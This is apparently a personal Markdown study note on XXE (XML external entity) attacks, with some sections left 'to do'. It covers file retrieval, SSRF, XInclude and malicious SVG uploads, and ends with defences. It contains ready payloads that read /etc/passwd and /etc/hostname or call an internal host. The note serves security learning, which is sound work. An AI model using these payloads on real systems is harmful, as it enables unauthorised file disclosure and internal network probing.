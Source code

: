 # XXE (XML external entity)

### What is XML
- Some applications use the XML format to transmit data between the browser and the server.
- Its popularity has now declined in favor of the JSON format

## Impact
- Retrieve files
- Perform SSRF attacks

## Exploiting XXE to retrieve files
1) Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2) Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.
- Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response. 

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
- Reflected SSRF
- Bind SSRF
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE
- to do

## Finding hidden attack surface for XXE injection
- Requests that contain data in XML format
- Requests that do not contain any XML
  - (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ... 
  - XInclude attacks
    - Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    - XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    - ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  - Via file upload
    - Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    - ` <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> `
        - This works if it's used image processing library & support SVG images & allow external entity
   - Via modified content type
     - To do
    
## Defence
- Disable resolution of external entities
- Disable support for XInclude
